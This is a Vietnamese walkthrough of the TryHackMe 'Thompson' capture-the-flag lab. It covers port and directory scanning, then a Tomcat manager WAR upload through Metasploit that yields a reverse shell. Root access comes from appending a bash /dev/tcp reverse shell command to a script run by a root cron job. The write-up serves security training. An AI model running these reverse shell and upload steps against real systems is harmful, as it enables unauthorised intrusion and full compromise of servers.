


Hôm nay tôi sẽ giải CTF [Tryhackme - Thompson](https://tryhackme.com/room/bsidesgtthompson)
## Reconnaissance

Vẫn như thông thường, việc đầu cần làm quét các cổng đang mở trên máy chủ mục tiêu.

```python
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Với Apache Tomcat 8.5.5 tôi thử tìm exploit và ra được 2 kết quả

```python
┌──(neo㉿kali)-[~]
└─$ searchsploit tomcat 8.5.5 
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                                               | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                                               | jsp/webapps/42966.py
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                  
┌──(neo㉿kali)-[~]
└─$ 
```

Tuy nhiên khi thử khai thác 2 exploit này tôi không thu được kết quả gì khả quan. Tạm thời tôi sẽ để nó lại. Với port 8009, tôi nhớ nó có liên quan đến [Ghostcat](https://book.hacktricks.xyz/network-services-pentesting/8009-pentesting-apache-jserv-protocol-ajp) nên đã tìm lại lỗ hổng liên quan đến nó. 

Thử dùng Metasploit cũng không có kết quả do phải có username và password. Tôi sẽ quay về với cách sơ khai nhất là tìm path với *dirsearch*

```python
┌──(neo㉿kali)-[~]
└─$ dirsearch -u 10.10.222.69:8080

  _|. _ _  _  _  _ _|_    v0.4.2                                                                                                                                                             
 (_||| _) (/_(_|| (_| )                                                                                                                                                                      
                                                                                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/neo/.dirsearch/reports/8080_22-09-26_03-55-39.txt

Error Log: /home/neo/.dirsearch/logs/errors-22-09-26_03-55-39.log

Target: http://10.10.222.69:8080/

[03:55:39] Starting: 
[03:56:07] 400 -    0B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[03:56:09] 400 -    0B  - /a%5c.aspx                                        
[03:56:35] 200 -    3KB - /build.xml                                        
[03:56:46] 302 -    0B  - /docs  ->  /docs/                                 
[03:56:47] 200 -   16KB - /docs/                                            
[03:56:51] 302 -    0B  - /examples  ->  /examples/                         
[03:56:51] 200 -    1KB - /examples/                                        
[03:56:51] 200 -    6KB - /examples/servlets/index.html                     
[03:56:51] 200 -  658B  - /examples/servlets/servlet/CookieExample
[03:56:51] 200 -  946B  - /examples/servlets/servlet/RequestHeaderExample   
[03:56:52] 200 -  673B  - /examples/jsp/snp/snoop.jsp                       
[03:56:53] 200 -   21KB - /favicon.ico                                      
[03:56:57] 302 -    0B  - /host-manager/  ->  /host-manager/html            
[03:56:57] 401 -    2KB - /host-manager/html                                
[03:57:00] 200 -   11KB - /index.jsp                                        
[03:57:09] 302 -    0B  - /manager  ->  /manager/                           
[03:57:10] 401 -    2KB - /manager/status/all                               
[03:57:10] 401 -    2KB - /manager/html
[03:57:10] 401 -    2KB - /manager/jmxproxy/?qry=STUFF                      
[03:57:10] 401 -    2KB - /manager/jmxproxy                                 
[03:57:10] 401 -    2KB - /manager/html/                                    
[03:57:10] 401 -    2KB - /manager/jmxproxy/?get=java.lang:type=Memory&att=HeapMemoryUsage
[03:57:10] 401 -    2KB - /manager/jmxproxy/?get=BEANNAME&att=MYATTRIBUTE&key=MYKEY
[03:57:10] 401 -    2KB - /manager/jmxproxy/?get=java.lang:type=Memory&att=HeapMemoryUsage&key=used
[03:57:10] 401 -    2KB - /manager/jmxproxy/?set=Catalina%3Atype%3DValve%2Cname%3DErrorReportValve%2Chost%3Dlocalhost&att=debug&val=cow
[03:57:10] 302 -    0B  - /manager/  ->  /manager/html
[03:57:10] 401 -    2KB - /manager/jmxproxy/?set=BEANNAME&att=MYATTRIBUTE&val=NEWVALUE
[03:57:10] 401 -    2KB - /manager/jmxproxy/?invoke=Catalina%3Atype%3DService&op=findConnectors&ps=
[03:57:10] 401 -    2KB - /manager/jmxproxy/?invoke=BEANNAME&op=METHODNAME&ps=COMMASEPARATEDPARAMETERS
                                                                             
Task Completed                                                                                                                                                                               
                    
┌──(neo㉿kali)-[~]
└─$
```

Truy cập vào */manager/html* thì tôi phải login mới có thể xem được file này



Dùng *BurpSuite* để bắt request



Vậy là tôi có uername và password. Quay trở lại Metasploit, hướng dẫn setup ở [đây](https://null-byte.wonderhowto.com/how-to/hack-apache-tomcat-via-malicious-war-file-upload-0202593/)

```python
msf6 exploit(multi/http/tomcat_mgr_upload) > show options

Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  s3cret           no        The password for the specified username
   HttpUsername  tomcat           no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.222.69     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         8080             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used)
   VHOST                          no        HTTP server virtual host


Payload options (java/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.18.3.74       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.18.3.74:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying MOqDtqfxEsxNGo...
[*] Executing MOqDtqfxEsxNGo...
[*] Undeploying MOqDtqfxEsxNGo ...
[*] Undeployed at /manager/html/undeploy
[*] Command shell session 1 opened (10.18.3.74:4444 -> 10.10.222.69:55106) at 2022-09-26 05:26:05 -0400

id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@ubuntu:/$ 
```

Tôi tìm thấy *user.txt* trong */home/jack*

## Privilege escalation

Trong thư mục *jack* còn 2 file nữa là *id.sh* và *test.txt*. 

```python
tomcat@ubuntu:/home/jack$ cat test.txt
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$
```

Khi chạy *id.sh* nó sẽ in kết quả ra *test.txt*. Kiểm tra *crontab*

```python
tomcat@ubuntu:~$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
#
tomcat@ubuntu:~$ 
```

File *id.sh* sẽ tự động thực thi, việc của tôi là thêm payload vào file này và chờ hệ thống thực thi. Nhưng trước đó thì tôi phải tạo listener với port 2402 đã `nc -lnvp 2402`

```python
tomcat@ubuntu:/home/jack$ echo '/bin/bash -i >& /dev/tcp/10.18.3.74/2402 0>&1' >> id.sh
<cho '/bin/bash -i >& /dev/tcp/10.18.3.74/2402 0>&1' >> id.sh                
tomcat@ubuntu:/home/jack$ cat id.sh     
cat id.sh
#!/bin/bash
id > test.txt
bash -i >& /dev/tcp/10.18.3.74/2402 0>&1
tomcat@ubuntu:/home/jack$ 
```

Quay lại listener

```python
┌──(neo㉿kali)-[~]
└─$ nc -lnvp 2402
listening on [any] 2402 ...
connect to [10.18.3.74] from (UNKNOWN) [10.10.222.69] 35900
bash: cannot set terminal process group (1998): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/jack# ls /root
ls /root
root.txt
root@ubuntu:/home/jack# 
```

